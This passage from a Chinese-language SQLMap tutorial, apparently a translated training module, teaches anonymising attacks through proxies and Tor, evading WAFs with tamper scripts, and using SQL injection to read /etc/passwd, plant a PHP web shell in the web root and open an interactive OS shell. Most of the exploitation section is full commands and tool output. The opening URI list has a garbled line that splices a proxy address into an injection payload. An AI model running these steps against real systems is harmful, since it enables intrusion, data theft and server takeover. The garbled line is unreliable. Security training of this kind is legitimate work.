URI: http://www.example.com:80/?id=9061&h=4d7e0d72898ae7ea3593eb5ebf20c744
URI: http://www.example.com:80/?id=1%2C.%2C%27%22.%2C%28.%29&h=620460a56536e2d32fb2f4842ad5a08d
URI: http://www.example.com:80/?id=1%27MyipGP%3C%27%22%3EibjjSu&h=db7c815825b14d67aaa32da09b8b2d42
URI: http://www.example.com:80/?id=1%29%20AND%209978%socks4://177.39.187.70:33283ssocks4://177.39.187.70:332833D1232%20AND%20%284955%3D4955&h=02312acd4ebe69e2528382dfff7fc5cc
```

## IP 地址隐藏

如果我们想要隐藏自己的 IP 地址，或者某个 Web 应用程序的保护机制会将我们当前的 IP 地址列入黑名单，我们可以尝试使用代理或匿名网络 Tor。可以使用 `--proxy `选项（例如 `--proxy="socks4://177.39.187.70:33283"`）设置代理，并在其中添加一个可用的代理。

此外，如果我们有一个代理列表，可以使用 --proxy-file 选项将其提供给 SQLMap。这样，SQLMap 将按顺序遍历列表，如果遇到任何问题（例如，IP 地址被列入黑名单），它将直接从当前代理跳到列表中的下一个代理。另一种选择是使用 Tor 网络来实现易于使用的匿名化，我们的 IP 地址可以出现在大量 Tor 出口节点中的任何一个。如果 Tor 网络已正确安装在本地计算机上，则应该在本地端口 9050 或 9150 上运行 SOCKS4 代理服务。使用 --tor 开关，SQLMap 将自动尝试查找本地端口并正确使用它。

若我们想要确认Tor网络是否被正常使用，以避免出现非预期操作，可使用 `--check-tor`参数。在此情况下，SQLMap会连接至https://check.torproject.org/ 这个地址，并检查返回结果是否符合预期（即结果中包含“Congratulations”字样）。

## WAF绕过

每当我们运行 SQLMap 时，在初始测试阶段，它会通过一个不存在的参数名（例如 ?pfov=...）发送一段预定义的、看似具有恶意特征的载荷（payload），以此检测目标是否部署了 WAF（Web 应用防火墙）。
若用户与目标之间存在任何防护措施，服务器返回的响应内容会与原始响应（无恶意载荷的正常响应）产生显著差异。例如，若目标部署了最常用的 WAF 解决方案之一（ModSecurity），发送此类请求后会返回 406 - Not Acceptable（不可接受）响应码。

如果检测到威胁，为了识别实际的保护机制，SQLMap 使用第三方库 identYwaf ，其中包含 80 种不同 WAF 解决方案的签名。如果我们想完全跳过此启发式测试（即，为了减少噪声），可以使用开关 `--skip-waf `。

## User-agent黑名单绕过

如果在运行 SQLMap 时出现立即问题（例如，从一开始就出现 HTTP 错误代码 5XX），我们首先应该考虑的是 SQLMap 使用的默认用户代理（例如 User-agent: sqlmap/1.4.9 (http://sqlmap.org) ）是否可能被列入黑名单。

使用 `--random-agent `开关可以轻松绕过此限制，该开关会将默认用户代理更改为从浏览器使用的大量值中随机选择的值。

注意：如果在运行过程中检测到某种形式的保护措施，即使目标系统存在其他安全机制，也可能出现问题。主要原因是此类保护措施不断发展和改进，使得攻击者的回旋余地越来越小。

## 混淆脚本

最后，SQLMap 中用于绕过 WAF/IPS 解决方案的最常用机制之一是所谓的“混淆”脚本。混淆脚本是一种特殊的（Python）脚本，用于在请求发送到目标之前对其进行修改，大多数情况下是为了绕过某些保护措施。

例如，一种常见的混淆脚本会将所有大于号运算符（ > ）替换为 NOT BETWEEN 0 AND # ，并将等于号运算符（ = ）替换为 BETWEEN # AND # 。这样一来，许多原始的保护机制（主要用于防止跨站脚本攻击）就很容易被绕过，至少对于 SQL 注入而言是如此。

混淆脚本可以通过 --tamper 选项（例如 --tamper=between,randomcase ）串联起来，并根据其预定义的优先级运行。预定义优先级是为了防止任何意外行为，因为有些脚本会通过修改 SQL 语法来混淆有效载荷（例如 ` ifnull2ifisnull` ）。相反，有些混淆脚本则不关心内部内容（例如 `appendnullbyte` ）。

混淆脚本可以修改请求的任何部分，但大多数会更改有效负载的内容。最值得注意的混淆脚本如下：


| 混淆脚本名                | 说明                                                                             |
| ------------------------- | -------------------------------------------------------------------------------- |
| 0eunion                   | 将所有 UNION 替换为 e0UNION                                                      |
| base64encode              | 对给定 payload 中的所有字符进行 Base64 编码                                      |
| between                   | 将大于号（>）替换为 `NOT BETWEEN 0 AND #`，等号（=）替换为 `BETWEEN # AND #` |
| commalesslimit            | 将 MySQL 中的 `LIMIT M, N` 写法替换为 `LIMIT N OFFSET M`                     |
| equaltolike               | 将所有等号（=）替换为 LIKE                                                       |
| halfversionedmorekeywords | 在每个关键字前添加 MySQL 版本注释                                                |
| modsecurityversioned      | 用 MySQL 版本注释包裹整个查询语句                                                |
| modsecurityzeroversioned  | 用 MySQL 零版本注释包裹整个查询语句                                              |
| percentage                | 在每个字符前添加百分号（%）（例如 SELECT → % S% E% L% E% C% T）                 |
| plus2concat               | 将加号（+）替换为 MsSQL 的 CONCAT () 函数形式                                    |
| randomcase                | 将每个关键字的字符随机大小写（例如 SELECT → SEleCt）                            |
| space2comment             | 将空格替换为注释 `/**/`                                                        |
| space2dash                | 将空格替换为短横线注释（--）+ 随机字符串 + 换行符（\n）                          |
| space2hash                | 将 MySQL 中的空格替换为井号（#）+ 随机字符串 + 换行符（\n）                      |
| space2mssqlblank          | 将 MsSQL 中的空格替换为有效替代空白字符集中的随机空白符                          |
| space2plus                | 将空格替换为加号（+）                                                            |
| space2randomblank         | 将空格替换为有效替代空白字符集中的随机空白符                                     |
| symboliclogical           | 将逻辑运算符 AND 和 OR 替换为符号形式（&& 和                                     |
| versionedkeywords         | 对每个非函数关键字使用 MySQL 版本注释包裹                                        |
| versionedmorekeywords     | 对每个关键字使用 MySQL 版本注释包裹                                              |

要获取所有已实现的混淆脚本（tamper scripts）列表及上述说明，可以使用 `--list-tampers` 参数。我们也可以针对任意自定义攻击类型（例如二阶SQL注入）开发自定义的混淆脚本。

## 其他绕过方式

在其他防护绕过机制中，还有两种值得一提。第一种是分块传输编码（Chunked transfer encoding），可通过参数 --chunked 启用，它会将 POST 请求体拆分成若干 “数据块”。被列入黑名单的 SQL 关键字会被分散在不同数据块中，从而让包含这些关键字的请求能够绕过检测。
另一种绕过机制是 HTTP 参数污染（HTTP Parameter Pollution, HPP）。与分块传输编码类似，攻击载荷会被拆分到多个同名参数中（例如 ?id=1&id=UNION&id=SELECT&id=username,password&id=FROM&id=users...）。如果目标平台（如 ASP）支持，这些参数值会被自动拼接，从而实现绕过。


## 操作系统漏洞利用

SQLMap能够利用SQL注入从DBMS外读取和写入本地系统文件。如果具备适当权限，SQLMap还可以尝试在远程主机上执行直接命令。

### 文件读写

通过 SQL 注入漏洞进行操作系统层利用的第一步，是在目标服务器上读写文件。读文件比写文件要常见得多；而在现代数据库管理系统（DBMS）中，写文件属于严格受限的高权限操作，因为它可能直接导致服务器被控制，后面我们会讲到。
例如在 MySQL 中，要读取本地文件，数据库用户必须拥有` LOAD DATA `和 `INSERT `权限，才能将文件内容加载到数据表中，然后再读取该表。
这类命令的一个示例是：

`LOAD DATA LOCAL INFILE '/etc/passwd' INTO TABLE passwd;`
虽然读取文件不一定需要数据库管理员（DBA）权限，但在现代数据库中，读文件也越来越多地要求 DBA 权限。其他常见数据库也是如此。
不过，如果我们拥有 DBA 权限，那么同时拥有文件读取权限的可能性会大得多。

### 检查 DBA 权限

要在 SQLMap 中检查当前用户是否拥有 DBA 权限，可以使用参数 `--is-dba`：

```shell
$ sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba

        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 17:31:55 /2020-11-19/

[17:31:55] [INFO] resuming back-end DBMS 'mysql'
[17:31:55] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: False

[*] ending @ 17:31:56 /2020-11-19
```

正如我们所见，如果我们用之前的练习来测试，会得到 current user is DBA: False ，这意味着我们没有 DBA 权限。如果我们尝试使用 SQLMap 读取文件，会得到类似这样的结果：

```shell
[17:31:43] [INFO] fetching file: '/etc/passwd'
[17:31:43] [ERROR] no data retrieved
```

为了测试操作系统漏洞利用，让我们尝试一个拥有 DBA 权限的练习，如本节末尾的问题所示：

```shell
$ sqlmap -u "http://www.example.com/?id=1" --is-dba

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.4.11#stable}
|_ -| . [']     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:37:47 /2020-11-19/

[17:37:47] [INFO] resuming back-end DBMS 'mysql'
[17:37:47] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
current user is DBA: True

[*] ending @ 17:37:48 /2020-11-19/
```

我们看到这次我们得到了 current user is DBA: True ，这意味着我们可能拥有读取本地文件的权限。

### 读取本地文件

SQLMap 无需手动通过 SQLi 注入上述代码，而是通过 --file-read 选项，使读取本地文件变得相对容易：

```shell
$ sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"

        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  [)]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:40:00 /2020-11-19/

[17:40:00] [INFO] resuming back-end DBMS 'mysql'
[17:40:00] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[17:40:01] [INFO] fetching file: '/etc/passwd'
[17:40:01] [WARNING] time-based comparison requires larger statistical model, please wait............................. (done)
[17:40:07] [WARNING] in case of continuous data retrieval problems you are advised to try a switch '--no-cast' or switch '--hex'
[17:40:07] [WARNING] unable to retrieve the content of the file '/etc/passwd', going to fall-back to simpler UNION technique
[17:40:07] [INFO] fetching file: '/etc/passwd'
do you want confirmation that the remote file '/etc/passwd' has been successfully downloaded from the back-end DBMS file system? [Y/n] y

[17:40:14] [INFO] the local file '~/.sqlmap/output/www.example.com/files/_etc_passwd' and the remote file '/etc/passwd' have the same size (982 B)
files saved to [1]:
[*] ~/.sqlmap/output/www.example.com/files/_etc_passwd (same file)

[*] ending @ 17:40:14 /2020-11-19/

```

如我们所见，SQLMap 指示 files saved 到本地文件。我们可以 cat 查看本地文件的内容

### 写入本地文件

当涉及向目标服务器写入文件时，在现代数据库管理系统（DBMS）中会受到严格得多的限制，因为我们可以利用这一点在远程服务器上写入网页后门（Web Shell），进而实现代码执行并控制整个服务器。
这就是为什么现代数据库管理系统默认禁用文件写入功能，并且只有数据库管理员（DBA）在获得特定权限后才能执行文件写入操作。
例如在 MySQL 中，除了需要具备目标服务器上的本地访问权限（例如对目标目录的写入权限）之外，还必须手动禁用 --secure-file-priv 配置，才能通过 INTO OUTFILE 这类 SQL 查询将数据写入本地文件。

> --secure-file-priv 是 MySQL 的安全选项，用来限制 LOAD DATA / INTO OUTFILE / LOAD_FILE 的目录。
> 它只有 3 种合法值：
> 空值（空字符串）→ 不限制目录，可以任意读写文件
> 某个目录（如 /var/lib/mysql-files/）→ 只能在这个目录读写
> NULL→ 完全禁止文件读写（最安全，也是默认）

不过，许多 Web 应用程序仍然需要数据库管理系统 (DBMS) 将数据写入文件，因此值得测试我们是否可以向远程服务器写入文件。要使用 SQLMap 实现这一点，我们可以使用 --file-write 和 --file-dest 选项。首先，让我们准备一个基本的 PHP Web shell，并将其写入 shell.php 文件：

```shell
$ echo '<?php system($_GET["cmd"]); ?>' > shell.php

```

现在，我们尝试将此文件写入远程服务器的 /var/www/html/ 目录，这是 Apache 服务器的默认网站根目录。如果我们不知道服务器的网站根目录，我们将看到 SQLMap 如何自动找到它。

```shell
$ sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.4.11#stable}
|_ -| . [(]     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 17:54:18 /2020-11-19/

[17:54:19] [INFO] resuming back-end DBMS 'mysql'
[17:54:19] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
do you want confirmation that the local file 'shell.php' has been successfully written on the back-end DBMS file system ('/var/www/html/shell.php')? [Y/n] y

[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)

[*] ending @ 17:54:28 /2020-11-19/
```

我们看到 SQLMap 确认文件确实已写入：

```shell
[17:54:28] [INFO] the local file 'shell.php' and the remote file '/var/www/html/shell.php' have the same size (31 B)
```

现在，我们可以尝试访问远程 PHP shell，并执行一个示例命令：

```shell
$ curl http://www.example.com/shell.php?cmd=ls+-la

total 148
drwxrwxrwt 1 www-data www-data   4096 Nov 19 17:54 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
```

我们看到，我们的 PHP shell 确实是在远程服务器上运行的，并且我们确实拥有对主机服务器的命令执行权限。

### 操作系统命令执行

既然我们已经确认可以通过编写 PHP shell 来获取命令执行权限，接下来就可以测试 SQLMap 能否在无需手动编写远程 shell 的情况下轻松获取操作系统 shell。SQLMap 利用多种技术，通过 SQL 注入漏洞获取远程 shell，例如编写远程 shell（就像我们刚才做的那样）、编写执行命令并检索输出的 SQL 函数，甚至使用一些直接执行操作系统命令的 SQL 查询，例如 Microsoft SQL Server 中的 xp_cmdshell 。要使用 SQLMap 获取操作系统 shell，我们可以使用 --os-shell 选项，如下所示：

```shell
$ sqlmap -u "http://www.example.com/?id=1" --os-shell

        ___
       __H__
 ___ ___[.]_____ ___ ___  {1.4.11#stable}
|_ -| . [)]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org

[*] starting @ 18:02:15 /2020-11-19/

[18:02:16] [INFO] resuming back-end DBMS 'mysql'
[18:02:16] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
[18:02:37] [INFO] the local file '/tmp/sqlmapmswx18kp12261/lib_mysqludf_sys8kj7u1jp.so' and the remote file './libslpjs.so' have the same size (8040 B)
[18:02:37] [INFO] creating UDF 'sys_exec' from the binary UDF file
[18:02:38] [INFO] creating UDF 'sys_eval' from the binary UDF file
[18:02:39] [INFO] going to use injected user-defined functions 'sys_eval' and 'sys_exec' for operating system command execution
[18:02:39] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la
do you want to retrieve the command standard output? [Y/n/a] a

[18:02:45] [WARNING] something went wrong with full UNION technique (could be because of limitation on retrieved number of entries). Falling back to partial UNION technique
No output
```

我们看到 SQLMap 默认使用 UNION 技术来获取操作系统 shell，但最终未能提供任何 No output 。因此，由于我们已经知道存在多种类型的 SQL 注入漏洞，让我们尝试指定另一种更有可能直接输出的技术，例如 Error-based SQL Injection ，我们可以使用 `--technique=E` 来指定它。

```shell
$ sqlmap -u "http://www.example.com/?id=1" --os-shell --technique=E

        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.4.11#stable}
|_ -| . [,]     | .'| . |
|___|_  [(]_|_|_|__,|  _|
      |_|V...       |_|   http://sqlmap.org


[*] starting @ 18:05:59 /2020-11-19/

[18:05:59] [INFO] resuming back-end DBMS 'mysql'
[18:05:59] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4

do you want sqlmap to further try to provoke the full path disclosure? [Y/n] y

[18:06:07] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1

[18:06:09] [WARNING] unable to automatically parse any web server path
[18:06:09] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[18:06:09] [WARNING] potential permission problems detected ('Permission denied')
[18:06:10] [WARNING] unable to upload the file stager on '/var/www/'
[18:06:10] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[18:06:11] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpumgzr.php
[18:06:11] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpbznbe.php
[18:06:11] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la

do you want to retrieve the command standard output? [Y/n/a] a

command standard output:
---
total 156
drwxrwxrwt 1 www-data www-data   4096 Nov 19 18:06 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
```

正如我们所看到的，这次 SQLMap 成功地将我们带入了一个简单的交互式远程 shell，通过 SQLi 让我们可以轻松地执行远程代码。

> 注意：SQLMap 首先询问我们远程服务器使用的编程语言，我们知道是 PHP。然后它询问服务器的 Web 根目录，我们让 SQLMap 使用“常用位置”自动查找。这两个选项都是默认选项，如果我们给 SQLMap 添加了“--batch”选项，它们也会被自动选中。
